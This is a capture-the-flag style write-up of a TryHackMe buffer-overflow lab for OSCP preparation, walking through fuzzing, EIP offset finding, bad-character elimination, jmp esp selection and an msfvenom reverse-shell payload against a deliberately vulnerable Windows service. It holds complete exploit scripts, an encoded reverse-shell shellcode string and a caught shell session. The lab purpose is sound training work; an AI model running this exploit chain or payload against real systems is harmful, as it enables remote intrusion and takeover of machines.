

# Buffer Overflow Prep

This room uses a 32-bit Windows 7 VM with Immunity Debugger and Putty preinstalled. Windows Firewall and Defender have both been disabled to make exploit writing easier.

You can log onto the machine using RDP with the following credentials: admin/password

I suggest using the xfreerdp command: `xfreerdp /u:admin /p:password /cert:ignore /v:10.10.17.141 /workarea`

If Windows prompts you to choose a location for your network, choose the "Home" option.

On your Desktop there should be a folder called "vulnerable-apps". Inside this folder are a number of binaries which are vulnerable to simple stack based buffer overflows (the type taught on the PWK/OSCP course):

* The SLMail installer.
* The brainpan binary.
* The dostackbufferoverflowgood binary.
* The vulnserver binary.
* A custom written "oscp" binary which contains 10 buffer overflows, each with a different EIP offset and set of badchars.

Please note that this room does not teach buffer overflows from scratch. It is intended to help OSCP students and also bring to their attention some features of mona which will save time in the OSCP exam.

## Overflow 1

Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".

When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

The binary will open in a "paused" state, so click the red play icon or choose Debug -> Run. In a terminal window, the oscp.exe binary should be running, and tells us that it is listening on port 1337.

On your Kali box, connect to port 1337 on 10.10.17.141 using netcat

```
nc 10.10.17.141 1337
```

Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type "OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

### Mona Configuration
The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

```
!mona config -set workingfolder c:\mona\%p
```

### Fuzzing

Create a file on your Kali box called fuzzer.py with the following contents:

```python
import socket, time, sys

ip = "10.10.17.141"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

```
$ python3 fuzzer.py 
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Fuzzing crashed at 2000 bytes
```

### Crash Replication & Controlling EIP

Create another file on your Kali box called `exploit.py` with the following contents:

```python
import socket

ip = "10.10.17.141"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

Copy the output and place it into the payload variable of the `exploit.py` script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the `exploit.py` (which we will run multiple times with incremental modifications).

On Kali, run the modified `exploit.py` script: `python3 exploit.py`

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

```
!mona findmsp -distance 2400
```

Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

In this output you should see a line which states:

```
EIP contains normal pattern : ... (offset XXXX)
```

This is the `mona` output:

<div><p align="center"></div>

Update your `exploit.py` script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified `exploit.py` script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

### Finding Bad Characters

Generate a bytearray using `mona`, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

```
!mona bytearray -b "\x00"
```

<div><p align="center"></div>

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Update your `exploit.py` script and set the payload variable to the string of bad chars the script generates.
```python
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""
```

Restart oscp.exe in Immunity and run the modified `exploit.py` script again. Make a note of the address to which the ESP register points and use it in the following mona command:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```

In this case the offset is 1978 (calculated previously) and the return address is overritten with "BBBB" value. So the program will fail during the `ret` operation and it will stop at that point. Immediately after there will be the payload who had overwrite the ESP adress.

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (`\x00`) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with `\x00`. Then update the payload variable in your `exploit.py` script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified `exploit.py` script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

After the first time, this is the output of `mona compare` command.

<div><p align="center"></div>

So now I need to repeat the entire process adding `\x07` in `mona bytearray` command and removing `\x07` from python payload. I must repeat this process each time adding one badchars to mona and removing it from python until the output of badchars is empty.

<div><p align="center"></div>

### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```
!mona jmp -r esp -cpb "\x00"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```

### Exploit

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

## Overflow 2

Repeat the steps outlined in Task 2 but for the OVERFLOW2 command. 

First I created the `fuzzer.py` file to understand where the value that caused a buffer overflow was around, but instead of using sockets as in the example on THM, I used the `pwntools` module.

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
timeout = 5

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

i = 1
while True:
    l_value = 100 * i
    try:
        value = "A" * (l_value)
        print(f"[+] Sending: {l_value}")

        input_value = command + value
        r.sendline(input_value.encode())
        res = r.recv(timeout=timeout).decode()
        if len(res) > 0:
            print(res)
        else:
            print(f"[+] No Reply\n[+] Possible Overflow with value: {l_value}")
            break
        i += 1
    except Exception as e:
        print(e)
```

Through the use of the fuzzer I discovered that with a length value equal to 700 the program goes into segmentation fault. So I can start from this value for my exploit

```
$ python3 fuzzer.py
[+] Opening connection to 10.10.17.141 on port 1337: Done
Welcome to OSCP Vulnerable Server! Enter HELP for help.

[+] Sending: 100
OVERFLOW2 COMPLETE

[+] Sending: 200
OVERFLOW2 COMPLETE

[+] Sending: 300
OVERFLOW2 COMPLETE

[+] Sending: 400
OVERFLOW2 COMPLETE

[+] Sending: 500
OVERFLOW2 COMPLETE

[+] Sending: 600
OVERFLOW2 COMPLETE

[+] Sending: 700
[+] No Reply
[+] Possible Overflow with value: 700
[*] Closed connection to 10.10.17.141 port 1337
```

For the exploit I first tried with this python code

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
timeout = 5

bof_value = 700

payload = cyclic(bof_value + 400)

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

input_value = command.encode() + payload
r.sendline(input_value)
```

And running `!mona findmsp -distance 1100` it didn't find any cyclic pattern. So I made some research and I figured out that Mona is designed to search for unique non-repeating patterns. 

The `cyclic` function in `pwntools` generates a cyclic pattern by repeating a sequence of characters. It uses a specific algorithm that creates a unique pattern based on the length provided. This pattern is intended to be useful for identifying the offset at which the program crashes or exhibits abnormal behavior when the pattern is sent as input.

On the other hand, the `pattern_create.rb` script in Metasploit generates a non-repeating pattern that consists of unique characters. It uses a different algorithm that creates a pattern without any repeated substrings. This pattern is often used in the context of identifying the offset where a buffer overflow occurs, as the unique pattern can help determine the exact location of the overwrite.

The cyclic function in pwntools generates a cyclic pattern by repeating a sequence of characters. It uses a specific algorithm that creates a unique pattern based on the length provided. This pattern is intended to be useful for identifying the offset at which the program crashes or exhibits abnormal behavior when the pattern is sent as input.

On the other hand, the pattern_create.rb script in Metasploit generates a non-repeating pattern that consists of unique characters. It uses a different algorithm that creates a pattern without any repeated substrings. This pattern is often used in the context of identifying the offset where a buffer overflow occurs, as the unique pattern can help determine the exact location of the overwrite.

So I modified the `find_offset.py` script as follows.

```python
from pwn import *
import subprocess as sb

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
timeout = 5

pattern_create = "/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb"

bof_value = 700

payload = (sb.check_output(["ruby", pattern_create, "-l", str(bof_value + 400)])).strip()

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

input_value = command.encode() + payload
r.sendline(input_value)
```

The result is markedly different.

<div><p align="center"></div>

The `EIP` offset for OVERFLOW2 is **634**, now we can answer to the first question of this task.

Now to find all the badchars, I used the `!mona bytearray -b "\x00"` command to generate a byte string excluding `\x00`, and I used the same string as a payload in the `find_badchars.py` file.

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
offset = 634
retn = "BBBB"

value = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

payload = command + ("A" * offset) + retn + value

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

input_value = payload.encode()
r.send(input_value)
```

The offset is correct and I can say because the `EIP` register has been filled with the value "BBBB" (42424242) that I set in the code.

<div><p align="center"></div>

Now to compare the strings and find out what the badchars are, I need the value contained in the `ESP`.

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```

<div><p align="center"></div>

Now I repeat the process excluding `\x23`, and I will continue excluding one byte at a time until the badchars field is empty.

After excluding `\x00`, `\x23`, `\x3c`, and `\x80` I got into a loop. After excluding also `\x80`, the value `\x81` appeared as possible badchars, after which `\x82` appeared and so on. There is clearly something wrong.

Of course the characters `\x00`, `\x23` and `\x3c` are badchars, so I repeated the step with these values and inspected the memory at the value pointed to by `ESP`.

Right click on `ESP` -> **Follow in Dump**

<div><p align="center"></div>

I noticed that the bytes from `\x01` up to `\x7f` are normal, after which they alternate with the value c2.

<div><p align="center"></div>

This is very strange! Maybe the bytes aren't sent correctly and are being written to memory incorrectly. So I made a small change to my code.

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
offset = 634
retn = "BBBB"

value = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

payload = command + ("A" * offset) + retn + value

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

r.send(payload)
```

By removing the `input_value = payload.encode()` line and sending the `payload` variable directly, the result is quite different. I repeated the process excluding the `\x00`, `\x23` and `\x3c` values and this is the memory dump.

<div><p align="center"></div>

From here I noticed that the other potential corrupt bytes are `\x83` and `\xba`, I tried again by removing these two too and finally I got the desired result.

<div><p align="center"></div>

So the badchars are `\x00\x23\x3c\x83\xba`.

After that I executed the command below:

```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```
<div><p align="center"></div>

In this way I found all the `jmp esp` instructions with addresses that don't contain any of the badchars specified. So I create `exploit.py` setting the `retn` variable with one of that adresses.

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
offset = 634
retn = "\xaf\x11\x50\x62"       # Little endian
reverse_shell = "\xfc\xbb\x1b\xa5\xae\xca\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xe7\x4d\x2c\xca\x17\x8e\x51\x42\xf2\xbf\x51\x30\x77\xef\x61\x32\xd5\x1c\x09\x16\xcd\x97\x7f\xbf\xe2\x10\x35\x99\xcd\xa1\x66\xd9\x4c\x22\x75\x0e\xae\x1b\xb6\x43\xaf\x5c\xab\xae\xfd\x35\xa7\x1d\x11\x31\xfd\x9d\x9a\x09\x13\xa6\x7f\xd9\x12\x87\x2e\x51\x4d\x07\xd1\xb6\xe5\x0e\xc9\xdb\xc0\xd9\x62\x2f\xbe\xdb\xa2\x61\x3f\x77\x8b\x4d\xb2\x89\xcc\x6a\x2d\xfc\x24\x89\xd0\x07\xf3\xf3\x0e\x8d\xe7\x54\xc4\x35\xc3\x65\x09\xa3\x80\x6a\xe6\xa7\xce\x6e\xf9\x64\x65\x8a\x72\x8b\xa9\x1a\xc0\xa8\x6d\x46\x92\xd1\x34\x22\x75\xed\x26\x8d\x2a\x4b\x2d\x20\x3e\xe6\x6c\x2d\xf3\xcb\x8e\xad\x9b\x5c\xfd\x9f\x04\xf7\x69\xac\xcd\xd1\x6e\xd3\xe7\xa6\xe0\x2a\x08\xd7\x29\xe9\x5c\x87\x41\xd8\xdc\x4c\x91\xe5\x08\xc2\xc1\x49\xe3\xa3\xb1\x29\x53\x4c\xdb\xa5\x8c\x6c\xe4\x6f\xa5\x07\x1f\xf8\xc0\xde\x10\xb1\xbc\xe2\x2e\x50\x61\x6a\xc8\x38\x89\x3a\x43\xd5\x30\x67\x1f\x44\xbc\xbd\x5a\x46\x36\x32\x9b\x09\xbf\x3f\x8f\xfe\x4f\x0a\xed\xa9\x50\xa0\x99\x36\xc2\x2f\x59\x30\xff\xe7\x0e\x15\x31\xfe\xda\x8b\x68\xa8\xf8\x51\xec\x93\xb8\x8d\xcd\x1a\x41\x43\x69\x39\x51\x9d\x72\x05\x05\x71\x25\xd3\xf3\x37\x9f\x95\xad\xe1\x4c\x7c\x39\x77\xbf\xbf\x3f\x78\xea\x49\xdf\xc9\x43\x0c\xe0\xe6\x03\x98\x99\x1a\xb4\x67\x70\x9f\xd4\x85\x50\xea\x7c\x10\x31\x57\xe1\xa3\xec\x94\x1c\x20\x04\x65\xdb\x38\x6d\x60\xa7\xfe\x9e\x18\xb8\x6a\xa0\x8f\xb9\xbe\xa0\x2f\x46\x41"
padding = "\x90" * 32

payload = command + ("A" * offset) + retn + padding + reverse_shell

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

r.sendline(payload)
```
The payload was generated using `msfvenom` command. 
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.9.15.73 LPORT=4444 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c > payload.c
```

Listening on port 4444 using netcat, I obtained a reverse shell.

```
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.17.141 49258
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

## Conclusion

The other tasks are solved in much the same way so they are omitted from this writeup.